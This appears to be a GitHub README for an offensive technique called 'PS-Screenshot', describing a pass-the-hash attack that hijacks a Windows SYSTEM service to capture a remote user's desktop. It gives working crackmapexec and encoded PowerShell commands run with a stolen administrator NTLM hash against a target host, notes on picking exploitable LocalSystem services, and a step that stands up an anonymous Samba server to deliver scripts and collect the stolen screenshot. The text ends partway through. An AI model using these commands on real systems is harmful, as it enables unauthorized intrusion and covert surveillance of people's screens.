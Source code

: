 # PS-Screenshot
Technique to hijack SYSTEM service to grab screenshot of logged on user's desktop using token duplication.

This is a pass-the-hash (PTH) procedure for grabbing a screenshot of a remote user's desktop in Windows 10 Pro.  This technique uses crackmap and powershell and assumes that you have already acquired admin credentials (NTLM hash) for the remote computer.

## (Step 1) List services that run as LocalSystem showing status and binPath

The powershell command that will be excuted is:<br />
`Get-WmiObject win32_service | Format-list Name,DisplayName,State,StartMode,StartName,PathName`<br />

Convert this to a powershell base64 utf-16le encoded command:<br />
`echo "Get-WmiObject win32_service | Format-list Name,DisplayName,State,StartMode,StartName,PathName" | iconv -t utf-16le | base64 -w 0; echo`<br />

Use crackmap to list services on the target (192.168.1.242) using the base64 output:<br />
`crackmapexec smb 192.168.1.242 -u administrator -d WIN10PRO -H a75001b474226887ca86ef09e1ae01ce --exec-method wmiexec -x 'powershell.exe -EncodedCommand RwBlAHQALQBXAG0AaQBPAGIAagBlAGMAdAAgAHcAaQBuADMAMgBfAHMAZQByAHYAaQBjAGUAIAB8ACAARgBvAHIAbQBhAHQALQBsAGkAcwB0ACAATgBhAG0AZQAsAEQAaQBzAHAAbABhAHkATgBhAG0AZQAsAFMAdABhAHQAZQAsAFMAdABhAHIAdABNAG8AZABlACwAUwB0AGEAcgB0AE4AYQBtAGUALABQAGEAdABoAE4AYQBtAGUACgA='`<br />

Select a service that is set to manual, is not running and launches as LocalSystem (e.g.):<br />
```
Name        : AppMgmt
DisplayName : Application Management
State       : Stopped
StartMode   : Manual
StartName   : LocalSystem
PathName    : C:\WINDOWS\system32\svchost.exe -k netsvcs -p
```

Not all services running as LocalSystem will work.  You may have to experiment to find one that is not restricted and holds the correct token privileges (e.g.):<br />
```
Name        : GoogleChromeElevationService
DisplayName : Google Chrome Elevation Service
State       : Stopped
StartMode   : Manual
StartName   : LocalSystem
PathName    : "C:\Program Files (x86)\Google\Chrome\Application\74.0.3729.131\elevation_service.exe"
```

## (Step 2) Start your anonymous samba server

The samba server will need to allow anonymous read and write since the exploit scripts will be delivered from it and the PNG screenshot will also be uploaded to it.  In this example the samba server will be the attacking Linux machine (192.168.1.19).  You will need to change references to this address to conform to your environment.
